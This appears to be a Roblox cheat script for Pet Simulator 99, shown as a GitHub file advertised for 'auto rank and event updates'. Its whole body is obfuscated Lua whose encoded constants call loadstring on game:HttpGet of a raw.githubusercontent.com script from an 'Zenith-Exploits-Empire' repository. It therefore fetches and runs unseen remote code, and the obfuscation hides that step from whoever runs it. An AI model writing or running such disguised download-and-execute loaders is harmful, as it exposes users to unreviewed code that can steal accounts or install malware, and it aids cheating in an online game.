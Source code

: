 # ps99-script
auto rank and event updates every saturday
--[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.9) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v81=v2(v0(v30,16));if v19 then local v91=v5(v81,v19);v19=nil;return v91;else return v81;end end end);local function v20(v31,v32,v33) if v33 then local v82=(v31/((929 -(214 + 699 + 14))^(v32-(2 -1))))%((5 -3)^(((v33-(878 -(282 + 595))) -(v32-(1 -0))) + (2 -1))) ;return v82-(v82%(1 -0)) ;else local v83=((237 + 830) -(68 + (1954 -(892 + 65))))^(v32-(620 -(555 + 64))) ;return (((v31%(v83 + v83))>=v83) and (932 -(857 + 74))) or (568 -(367 + 201)) ;end end local function v21() local v34=0 -0 ;local v35;while true do if (v34==(350 -(87 + 263))) then v35=v1(v16,v18,v18);v18=v18 + 1 ;v34=2 -(1 + 0) ;end if (v34==(1 -0)) then return v35;end end end local function v22() local v36,v37=v1(v16,v18,v18 + (4 -2) );v18=v18 + 2 + 0 ;return (v37 * (1017 -761)) + v36 ;end local function v23() local v38=952 -(802 + 150) ;local v39;local v40;local v41;local v42;while true do if (v38==(0 -0)) then v39,v40,v41,v42=v1(v16,v18,v18 + (5 -(1189 -(1069 + 118))) );v18=v18 + 4 ;v38=1 + 0 ;end if (v38==(998 -(915 + 82))) then return (v42 * ((107777298 -60271339) -30728743)) + (v41 * (38178 + 27358)) + (v40 * (336 -80)) + v39 ;end end end local function v24() local v43=v23();local v44=v23();local v45=(3 -2) -0 ;local v46=(v20(v44,1,4 + (875 -(814 + 45)) ) * ((3 -1)^(32 + (1138 -(116 + 1022))))) + v43 ;local v47=v20(v44,812 -(368 + 423) ,31);local v48=((v20(v44,100 -68 )==(19 -(10 + 8))) and  -(4 -3)) or (3 -2) ;if (v47==(442 -(416 + 16 + 10))) then if (v46==(0 -0)) then return v48 * ((0 -0) + 0) ;else local v92=0;while true do if (((0 + 0) -0)==v92) then v47=1;v45=438 -(52 + 93 + (1178 -(261 + 624))) ;break;end end end elseif (v47==2047) then return ((v46==(430 -(44 + 386))) and (v48 * ((3 -2)/(1486 -(998 + 488))))) or (v48 * NaN) ;end return v8(v48,v47-(325 + 698) ) * (v45 + (v46/((2 + 0)^(824 -(201 + 571))))) ;end local function v25(v49) local v50;if  not v49 then local v84=0 -0 ;while true do if (v84==(1080 -(1020 + 60))) then v49=v23();if (v49==(1423 -(630 + 793))) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -(3 -(1 + 1)) );v18=v18 + v49 ;local v51={};for v65=4 -3 , #v50 do v51[v65]=v2(v1(v3(v50,v65,v65)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0 -0 ;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();while true do if (v52~=(2 + 0)) then else for v93= #"{",v23() do local v94=(function() return 0;end)();local v95=(function() return;end)();while true do if (v94==0) then v95=(function() return v21();end)();if (v20(v95, #"]", #",")~=0) then else local v104=(function() return 0;end)();local v105=(function() return;end)();local v106=(function() return;end)();local v107=(function() return;end)();while true do if (v104==(242 -(187 + 54))) then local v114=(function() return 780 -(162 + 618) ;end)();while true do if (v114==(1 + 0)) then v104=(function() return 2;end)();break;end if (v114==(0 + 0)) then v107=(function() return {v22(),v22(),nil,nil};end)();if (v105==0) then local v163=(function() return 0;end)();local v164=(function() return;end)();while true do if ((0 -0)~=v163) then else v164=(function() return 0 + 0 ;end)();while true do if (v164==0) then v107[ #"-19"]=(function() return v22();end)();v107[ #"0313"]=(function() return v22();end)();break;end end break;end end elseif (v105== #":") then v107[ #"xxx"]=(function() return v23();end)();elseif (v105==2) then v107[ #"-19"]=(function() return v23() -((1638 -(1373 + 263))^16) ;end)();elseif (v105== #"xxx") then local v173=(function() return 1000 -(451 + 549) ;end)();local v174=(function() return;end)();while true do if ((0 + 0)~=v173) then else v174=(function() return 0;end)();while true do if (0==v174) then v107[ #"91("]=(function() return v23() -(2^(24 -8)) ;end)();v107[ #"0313"]=(function() return v22();end)();break;end end break;end end end v114=(function() return 1 -0 ;end)();end end end if (v104==(1386 -(746 + 638))) then if (v20(v106, #"]", #"<")== #" ") then v107[1 + 1 ]=(function() return v58[v107[2]];end)();end if (v20(v106,2 -0 ,2)~= #"]") then else v107[ #"-19"]=(function() return v58[v107[ #"nil"]];end)();end v104=(function() return 3;end)();end if (0==v104) then local v115=(function() return 341 -(218 + 123) ;end)();while true do if (1~=v115) then else v104=(function() return 1;end)();break;end if (v115==(1581 -(1535 + 46))) then v105=(function() return v20(v95,2, #"xnx");end)();v106=(function() return v20(v95, #"http",6);end)();v115=(function() return 1;end)();end end end if (v104==3) then if (v20(v106, #"91(", #"xnx")~= #"|") then else v107[ #"?id="]=(function() return v58[v107[ #".com"]];end)();end v53[v93]=(function() return v107;end)();break;end end end break;end end end for v96= #":",v23() do v54[v96-#"<" ]=(function() return v28();end)();end return v56;end if ( #":"~=v52) then else local v87=(function() return 0 + 0 ;end)();local v88=(function() return;end)();while true do if (v87~=(0 + 0)) then else v88=(function() return 560 -(306 + 254) ;end)();while true do if (v88~=(1 + 1)) then else v52=(function() return 3 -1 ;end)();break;end if (v88~=1) then else for v109= #"]",v57 do local v110=(function() return 0;end)();local v111=(function() return;end)();local v112=(function() return;end)();local v113=(function() return;end)();while true do if ((1467 -(899 + 568))==v110) then v111=(function() return 0;end)();v112=(function() return nil;end)();v110=(function() return 1 + 0 ;end)();end if (v110==1) then v113=(function() return nil;end)();while true do if (v111~=(2 -1)) then else if (v112== #"[") then v113=(function() return v21()~=(603 -(268 + 335)) ;end)();elseif (v112==(292 -(60 + 230))) then v113=(function() return v24();end)();elseif (v112~= #"19(") then else v113=(function() return v25();end)();end v58[v109]=(function() return v113;end)();break;end if (v111==0) then local v155=(function() return 0;end)();local v156=(function() return;end)();while true do if (v155~=0) then else v156=(function() return 572 -(426 + 146) ;end)();while true do if (v156~=1) then else v111=(function() return 1 + 0 ;end)();break;end if (v156~=(1456 -(282 + 1174))) then else local v170=(function() return 811 -(569 + 242) ;end)();while true do if (v170==1) then v156=(function() return 2 -1 ;end)();break;end if (v170==0) then v112=(function() return v21();end)();v113=(function() return nil;end)();v170=(function() return 1;end)();end end end end break;end end end end break;end end end v56[ #"19("]=(function() return v21();end)();v88=(function() return 1 + 1 ;end)();end if (v88==(1024 -(706 + 318))) then v57=(function() return v23();end)();v58=(function() return {};end)();v88=(function() return 1252 -(721 + 530) ;end)();end end break;end end end if ((1271 -(945 + 326))==v52) then local v89=(function() return 0 -0 ;end)();local v90=(function() return;end)();while true do if (v89==0) then v90=(function() return 0;end)();while true do if (v90==(0 + 0)) then v53=(function() return {};end)();v54=(function() return {};end)();v90=(function() return 1;end)();end if (v90==(701 -(271 + 429))) then v55=(function() return {};end)();v56=(function() return {v53,v54,nil,v55};end)();v90=(function() return 2;end)();end if (v90==(2 + 0)) then v52=(function() return  #">";end)();break;end end break;end end end end end local function v29(v59,v60,v61) local v62=v59[2 -1 ];local v63=v59[1502 -(1408 + 92) ];local v64=v59[1089 -(461 + 625) ];return function(...) local v67=v62;local v68=v63;local v69=v64;local v70=v27;local v71=1289 -(993 + 295) ;local v72= -((1552 -(1126 + 425)) + (405 -(118 + 287)));local v73={};local v74={...};local v75=v12("#",...) -(1 + 0) ;local v76={};local v77={};for v85=0,v75 do if (v85>=v69) then v73[v85-v69 ]=v74[v85 + (1122 -(118 + 1003)) + 0 ];else v77[v85]=v74[v85 + 1 ];end end local v78=(v75-v69) + 1 + 0 ;local v79;local v80;while true do local v86=0 + 0 ;while true do if ((2104>=1421) and (v86==(530 -(406 + 123)))) then if ((1812<=3249) and (v80<=(1776 -(1749 + 20)))) then if (v80<=(1 + 2)) then if (v80<=(1323 -((3655 -2406) + 73))) then if ((1623<=1957) and (v80==((377 -(142 + 235)) + 0))) then local v117=v79[2];v77[v117]=v77[v117](v13(v77,v117 + (1146 -(466 + 679)) ,v72));else v77[v79[4 -2 ]]();end elseif ((4412==4412) and (v80>(5 -3))) then do return;end else v77[v79[9 -7 ]]={};end elseif ((1750>=842) and (v80<=(1905 -(106 + 1794)))) then if (v80==(2 + 2)) then v77[v79[1 + 1 ]]=v61[v79[8 -5 ]];else local v122=0;local v123;local v124;local v125;local v126;while true do if ((4372>1850) and (v122==(2 -1))) then v72=(v125 + v123) -(115 -(4 + 110)) ;v126=584 -(13 + 44 + 527) ;v122=1429 -(41 + 1386) ;end if ((232<821) and (v122==0)) then v123=v79[2];v124,v125=v70(v77[v123](v13(v77,v123 + (104 -(17 + (1063 -(553 + 424)))) ,v79[3])));v122=(1 -0) + 0 ;end if ((518<902) and (v122==(3 -1))) then for v165=v123,v72 do v126=v126 + (2 -1) ;v77[v165]=v124[v126];end break;end end end elseif (v80==(172 -(122 + 39 + 5))) then v77[v79[2 -(0 + 0) ]]=v79[9 -6 ];else local v129=v79[2 + 0 ];local v130,v131=v70(v77[v129](v13(v77,v129 + 1 + 0 ,v79[1 + 1 + 1 ])));v72=(v131 + v129) -((1 + 0) -0) ;local v132=65 -(30 + 35) ;for v151=v129,v72 do v132=v132 + 1 ;v77[v151]=v130[v132];end end elseif (v80<=(8 + (6 -3))) then if (v80<=(1266 -(1043 + 214))) then if ((2994>858) and (v80==(30 -22))) then local v133=v79[1214 -(323 + (2476 -1587)) ];v77[v133]=v77[v133](v13(v77,v133 + 1 ,v72));else do return;end end elseif (v80>10) then local v135=v79[5 -3 ];local v136=v77[v79[583 -(361 + 219) ]];v77[v135 + (321 -(53 + 267)) ]=v136;v77[v135]=v136[v79[4]];else v77[v79[1 + 1 ]]=v61[v79[(931 -515) -(15 + 398) ]];end elseif (v80<=(995 -(6 + 12 + 964))) then if ((v80>12) or (3755<=915)) then v77[v79[7 -5 ]]();else v77[v79[2]]=v79[2 + 1 ];end elseif (v80==(9 + 5)) then v77[v79[2]]={};else local v145=0;local v146;local v147;while true do if (v145==(851 -(20 + 830))) then v77[v146 + (4 -3) + 0 ]=v147;v77[v146]=v147[v79[130 -((869 -(239 + 514)) + 10) ]];break;end if (v145==(0 + 0 + 0)) then v146=v79[740 -(542 + 196) ];v147=v77[v79[1332 -(797 + 532) ]];v145=1 -0 ;end end end v71=v71 + 1 + 0 ;break;end if ((0 + 0)==v86) then v79=v67[v71];v80=v79[1 + 0 + 0 ];v86=2 -1 ;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403563Q00682Q7470733A2Q2F7261772E67697468756275736572636F6E74656E742E636F6D2F5A656E6974682D4578706C6F6974732D456D706972652F47656E2D76322F6D61696E2F70732Q392F6175746F72616E6B2E6C756100094Q00027Q001204000100013Q001204000200023Q00200F00020002000300120C000400044Q0007000200044Q000800013Q00022Q000D0001000100012Q00033Q00017Q00",v9(),...);